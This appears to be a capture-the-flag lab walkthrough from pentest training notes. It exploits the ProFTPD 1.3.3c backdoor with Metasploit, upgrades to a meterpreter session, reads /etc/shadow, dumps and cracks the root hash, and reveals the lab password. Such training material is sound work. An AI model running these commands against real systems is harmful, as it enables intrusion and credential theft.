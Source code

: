 # 🔬Hashes Dumping

## Lab 1

>  🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
>  - Target IP: `192.75.64.3`
>  - **Password Hashes** dumping - `/etc/shadow`

### Enumeration

```bash
ip -br -c a
	192.75.64.2/24
```

```bash
nmap -sV 192.75.64.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:4B:40:03 (Unknown)
Service Info: OS: Unix
```

```bash
searchsploit ProFTPD 1.3.3
```

![searchsploit ProFTPD 1.3.3](assets/image-20230323104830486.png)

### Exploitation

```bash
service postgresql start && msfconsole -q
```

- Postgresql is started to store all `metasploit` loot and sensitive information from the target machine - [Metasploit - PostgreSQL Workflows](https://docs.metasploit.com/docs/pentesting/metasploit-guide-postgresql.html)

```bash
setg RHOSTS 192.75.64.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
run
```

```bash
/bin/bash -i
```

![Metasploit proftpd_133c_backdoor](assets/image-20230323105525516.png)

- Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions 2
```

![](assets/image-20230323105845671.png)

### Hashes Dumping

```bash
cat /etc/shadow
```

![cat /etc/shadow](assets/image-20230323105952352.png)

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`

- Gather Linux Password hashes with `Metasploit`

```bash
# background the session with CTRL+Z
search hashdump
use post/linux/gather/hashdump
set SESSION 2
run
```

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20230323100234_default_192.75.64.3_linux.hashes_660271.txt
```

- The *unshadowed password file* is a file containing the format hashed password, ready to be cracked.

### Crack the Hash

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

![Metasploit crack_linux](assets/image-20230323110756857.png)



<details>
<summary>Reveal Flag - "root" password is:  🚩</summary>



`password`

![](assets/image-20230323110859459.png)

</details>
